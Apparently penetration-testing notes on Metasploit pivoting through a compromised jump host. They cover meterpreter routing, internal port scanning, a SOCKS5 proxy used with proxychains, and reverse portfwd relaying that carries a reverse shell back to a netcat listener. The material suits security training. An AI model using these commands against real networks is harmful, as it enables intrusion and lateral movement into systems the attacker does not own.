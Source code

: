 # Metasploit Port Tunneling for exploitation

## Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- I have an active meterpreter session for this machine.

Technique: Local Port Forwarding via meterpreter portfwd

(TODO)

## Scenario 2: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- I would like to perform port scanning on the intranet network.

Technique: Add Route, Add Socks proxy

```sh
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell linux            SSH root @           10.10.1.32:35981 -> 10.10.1.10:22 (10.10.1.10)
  2         meterpreter x86/linux  root @ 172.16.1.100  10.10.1.32:4433 -> 10.10.1.10:43318 (10.10.1.10)
  
msf6 > route add 172.16.1.0/24 255.255.255.0 2
[*] Route added

msf6 > route get 172.16.1.2
172.16.1.2 routes through: Session 2
```
My active meterpreter session is at SESSION 2. Add a route with the following format: `route add <IP/CIDR> <SUBNET> <SESSION>`. 
Performing this will allow you to use metasploit modules to port scan the intranet network.

```
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.1.2
RHOSTS => 172.16.1.2
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80
PORTS => 80
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.1.2:           - 172.16.1.2:80 - TCP OPEN
[*] 172.16.1.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can perform port scan via metasploit module. However, we can further expand this to tools outside of metasploit by setting up a SOCKs proxy.

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy server
```
We set up a SOCK5 proxy and configure our `proxychains.conf` to use 127.0.0.1:9050.

```
(host)# proxychains curl -v http://172.16.1.2/ 
ProxyChains-3.1 (http://proxychains.sf.net)
*   Trying 172.16.1.2:80...
* Connected to 172.16.1.2 (127.0.0.1) port 80 (#0)
...
```
We have more flexibility with what tools to use with this Socks proxy set up. 

## Scenario 3:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 2.
- I found a vulnerability on 172.16.1.2:80
- I want to get a reverse connection back to my host machine (10.10.1.32) via tunneling through jump host at 172.16.1.10:4444.

Technique: portfwd reverse forwarding

```
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd list

No port forwards are currently active.

meterpreter > portfwd add -R -L 10.10.1.32 -l 4443 -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 10.10.1.32:4443

meterpreter > background

(host)# nc -nlvp 4443
```
portfwd is a meterpreter feature that supports relaying. We specify `-R` for reverse relaying. The `-L` option is the IP of host machine and `-l` is our netcat listener while `-p` will open a listening port on our jump host at `0.0.0.0:4444`.

```
(host)# proxychains exploit.sh --lhost=172.16.1.10 --lport=4444
```
We trigger our reverse shell to connect to our jumphost at 172.16.1.0:4444 which will get relayed back to our host's netcat. 

